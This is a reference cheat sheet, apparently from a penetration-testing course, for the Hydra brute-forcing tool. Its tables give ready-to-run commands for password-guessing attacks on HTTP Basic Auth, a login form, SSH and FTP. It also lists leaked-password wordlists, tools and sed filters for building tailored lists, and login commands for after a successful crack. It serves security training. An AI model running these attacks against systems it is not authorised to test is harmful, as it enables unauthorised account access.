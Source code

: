 # Hydra

## Command	Description
| Command                                                                                      | Description                                                  |
|---------------------------------------------------------------------------------------------|--------------------------------------------------------------|
| `hydra -h`                                                                                  | hydra help                                                   |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /`                                        | Basic Auth Brute Force - Combined Wordlist                  |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /`                   | Basic Auth Brute Force - User/Pass Wordlists                |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Login Form Brute Force - Static User, Pass Wordlist |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4`                           | SSH Brute Force - User/Pass Wordlists                       |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1`                                        | FTP Brute Force - Static User, Pass Wordlist                |

## Wordlists
| Command                                                                                      | Description                                           |
|---------------------------------------------------------------------------------------------|-------------------------------------------------------|
| `/opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt`          | Default Passwords Wordlist                            |
| `/opt/useful/SecLists/Passwords/Leaked-Databases/rockyou.txt`                               | Common Passwords Wordlist                             |
| `/opt/useful/SecLists/Usernames/Names/names.txt`                                             | Common Names Wordlist                                 |

## Misc
| Command                                                                                      | Description                                                  |
|---------------------------------------------------------------------------------------------|--------------------------------------------------------------|
| `cupp -i`                                                                                   | Creating Custom Password Wordlist                             |
| `sed -ri '/^.{,7}$/d' william.txt`                                                           | Remove Passwords Shorter Than 8                               |
| `sed -ri '/[!-/:-@\[-`\{-~]+/!d' william.txt`                                                | Remove Passwords With No Special Chars                        |
| `sed -ri '/[0-9]+/!d' william.txt`                                                           | Remove Passwords With No Numbers                              |
| `./username-anarchy Bill Gates > bill.txt`                                                   | Generate Usernames List                                       |
| `ssh b.gates@SERVER_IP -p PORT`                                                             | SSH to Server                                                 |
| `ftp 127.0.0.1`                                                                             | FTP to Server                                                 |
| `su - user`                                                                                 | Switch to User                                                |

